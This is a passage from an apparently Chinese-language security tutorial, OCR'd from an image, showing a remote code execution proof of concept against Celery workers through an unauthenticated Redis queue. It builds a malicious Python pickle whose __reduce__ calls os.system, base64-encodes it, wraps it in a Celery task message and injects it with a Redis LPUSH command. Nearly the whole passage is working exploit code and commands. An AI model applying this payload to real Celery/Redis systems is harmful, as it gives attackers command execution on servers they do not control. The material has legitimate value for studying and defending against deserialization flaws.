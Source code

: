 ```python
import pickle

class Touch(object):
    def __reduce__(self):
        import os
        return (os.system, ('touch /tmp/evilTask', ))
print pickle.dumps(Touch()).encode('base64')
```

运行一下得到具体的 Payload 值：

```
(env)➜  demo python touch.py
Y3Bvc2l4CnN5c3RlbQpwMAooUyd0b3VjaCAvdG1wL2V2aWxUYXNrJwpwMQp0cDIKUnAzCi4=
```

将其替换原来的 `body` 值得到：

```json
{
 'body': 'Y3Bvc2l4CnN5c3RlbQpwMAooUyd0b3VjaCAvdG1wL2V2aWxUYXNrJwpwMQp0cDIKUnAzCi4=',
 'content-encoding': 'binary',
 'content-type': 'application/x-python-serialize',
 'headers': {},
 'properties': {
                'body_encoding': 'base64',
                'correlation_id': '73b9cafe-1c8d-4ff6-b7a8-49b60bff14ff',
                'delivery_info': {
                                  'exchange': 'celery',
                                  'priority': 0,
                                  'routing_key': 'celery'
                                  },
                'delivery_mode': 2,
                'delivery_tag': '0ad4f731-e5d3-427c-a6d6-d0fe48ff2b09',
                'reply_to': 'b6c304bb-45e5-3b27-95dc-29335cbce9f1'
               }
}
```

转换为字符串：

```
"{\"body\": \"Y3Bvc2l4CnN5c3RlbQpwMAooUyd0b3VjaCAvdG1wL2V2aWxUYXNrJwpwMQp0cDIKUnAzCi4=\", \"headers\": {}, \"content-type\": \"application/x-python-serialize\", \"properties\": {\"body_encoding\": \"base64\", \"delivery_info\": {\"priority\": 0, \"routing_key\": \"celery\", \"exchange\": \"celery\"}, \"delivery_mode\": 2, \"correlation_id\": \"73b9cafe-1c8d-4ff6-b7a8-49b60bff14ff\", \"reply_to\": \"b6c304bb-45e5-3b27-95dc-29335cbce9f1\", \"delivery_tag\": \"0ad4f731-e5d3-427c-a6d6-d0fe48ff2b09\"}, \"content-encoding\": \"binary\"}"
```

然后将该信息直接添加到 Redis 的 队列名为 `celery` 的任务列表中（注意转义）：

```
127.0.0.1:6379> LPUSH celery "{\"body\": \"Y3Bvc2l4CnN5c3RlbQpwMAooUyd0b3VjaCAvdG1wL2V2aWxUYXNrJwpwMQp0cDIKUnAzCi4=\", \"headers\": {}, \"content-type\": \"application/x-python-serialize\", \"properties\": {\"body_encoding\": \"base64\", \"delivery_info\": {\"priority\": 0, \"routing_key\": \"celery\", \"exchange\": \"celery\"}, \"delivery_mode\": 2, \"correlation_id\": \"73b9cafe-1c8d-4ff6-b7a8-49b60bff14ff\", \"reply_to\": \"b6c304bb-45e5-3b27-95dc-29335cbce9f1\", \"delivery_tag\": \"0ad4f731-e5d3-427c-a6d6-d0fe48ff2b09\"}, \"content-encoding\": \"binary\"}"
```
